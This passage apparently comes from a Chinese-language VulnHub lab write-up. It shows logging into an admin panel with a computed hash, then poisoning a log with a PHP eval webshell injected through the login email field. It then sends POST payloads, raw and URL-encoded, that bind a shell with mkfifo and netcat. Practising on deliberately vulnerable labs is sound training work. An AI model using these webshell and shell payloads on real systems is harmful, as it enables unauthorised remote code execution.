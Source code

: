 ```
9997d372a7af4f7a680b
```

用邮箱和算出的哈希值就能登录到后台中

这时也能成功的访问到生成的log文件了



## getshell

这样，我们在登录的时邮箱处插入一条php语句，写入webshell

```php
<?php eval($_POST[_]); ?>
```

然后访问对应的日志，提交post参数即可执行任意php代码

![](vulnhub-练习记录\46.png)

然后将shell弹到我的kali中来

在post中**依次*传入

```
_=`mkfifo /tmp/t`;
_=`cat /tmp/t | /bin/sh -i 2>&1 | nc -l 8888 > /tmp/t`;
```

注意url编码

```
_=%60mkfifo%20%2ftmp%2ft%60%3B
_=%60cat%20%2ftmp%2ft%20%7C%20%2fbin%2fsh%20-i%202%3E%261%20%7C%20nc%20-l%208888%20%3E%20%2ftmp%2ft%60%3B
```
